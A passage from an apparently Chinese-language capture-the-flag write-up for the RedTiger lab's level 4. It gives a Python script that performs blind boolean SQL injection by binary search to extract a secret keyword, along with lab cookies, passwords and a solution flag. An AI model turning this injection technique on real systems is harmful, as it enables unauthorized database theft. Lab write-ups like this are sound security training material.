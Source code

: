 再进行逐个字符测试。
需要牢记的是ASCII字符集由95个可打印字符（**0x20-0x7E**）和33个控制字符（**0x00-0x19，0x7F**）组成。
由于采取了折半搜索，需要根据返回结果来判断，得到的字符是否需要+1。

```
import requests
import re
url_format="http://redtiger.labs.overthewire.org/level4.php?id=1 and (select ascii(substr(keyword,{0},1)) from level4_secret limit 0,1)>{1}"

cookies={"level2login":"4_is_not_random",
         "level3login":"feed_your_cat_before_your_cat_feeds_you",
         "level4login":"there_is_no_bug"
        }
result = ""
for i in range(1, 21+1):
    print "%d th round"%(i)
    h= 0x7E
    l= 0x20
    flag=0
    while l <= h:
        c=(l+h)/2
        #print 'h=', chr(h)
        #print 'l=', chr(l)
        #print 'c=%d'%c
        url = url_format.format(i,c)
        #print url
        resp=requests.get(url, cookies=cookies)
        if resp.status_code != 200:
            print "status code error "
        text = resp.content
        #print text
        if text.find('Query returned 1 rows.') == -1:
            h = c-1
            flag=0
        else:
            l = c+1
            flag=1
    print 'c=',c,' flag=', flag
    if flag:
        c+=1
    print 'found c = ', chr(c)
    result+=chr(c)

print 'result = ', result
```


> You can raise your wechall.net score with this flag: e8bcb79c389f5e295bac81fda9fd7cfa
> The password for the next level is: there_is_a_truck

## level5
